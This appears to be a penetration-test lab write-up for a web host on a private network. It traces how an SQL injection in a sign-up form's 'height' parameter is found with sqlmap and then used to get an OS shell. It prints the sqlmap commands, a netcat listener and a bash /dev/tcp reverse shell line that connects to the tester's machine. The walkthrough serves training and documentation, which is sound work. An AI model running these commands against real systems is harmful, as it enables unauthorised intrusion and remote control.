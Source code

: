 Visiting this page revealed the sitemap for the website with several directories. Specifically of note was the `/flaticon` directory.
![[lib.png]]

Visiting the `/lib/flaticon` directory revealed a 'backup.txt' page/file.
![[backup find.png]]

This page featured content encoded in base64.
![[base64 backup.png]]

This was decoded in command line.
![[decoded 1.png]]

It was then prettified at https://beautifier.io.
![[pretty.png]]'

The code appeared to correspond to a JSON API that was being pulled in to part of the web application. The location for this was found in the sign-up form on the `/class.php` page.
![[sgnup.png]]
![[injection point 1.png]]

The POST request was copied and pasted into a .txt file and plugged into sqlmap, which revealed the `height` parameter to be vulnerable to SQLi.
```
POST /class.php HTTP/1.1
Host: 192.168.235.49
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 63
Origin: http://192.168.235.49
Connection: close
Referer: http://192.168.235.49/class.php
Upgrade-Insecure-Requests: 1

weight=123&height=45&age=34&gender=Male&email=lloyd%40aspen.com
```

```Shell
sqlmap -r subscribe.txt
```

The tester was able to upload an os-command shell using sqlmap.
```Shell
sqlmap -r subscribe.txt -p height --os-shell  --web-root "/var/www/html/tmp"
```

This allowed the tester to setup a netcat listener, then execute a reverse shell on the os-command shell in sqlmap that connected to the netcat listener.

`netcat listener:`
```Shell
nc -lnvp 4443
```

`reverse shell command on sqlmap:`
```Shell
os-shell> bash -c "bash -i >& /dev/tcp/192.168.45.197/4443 0>&1"
```

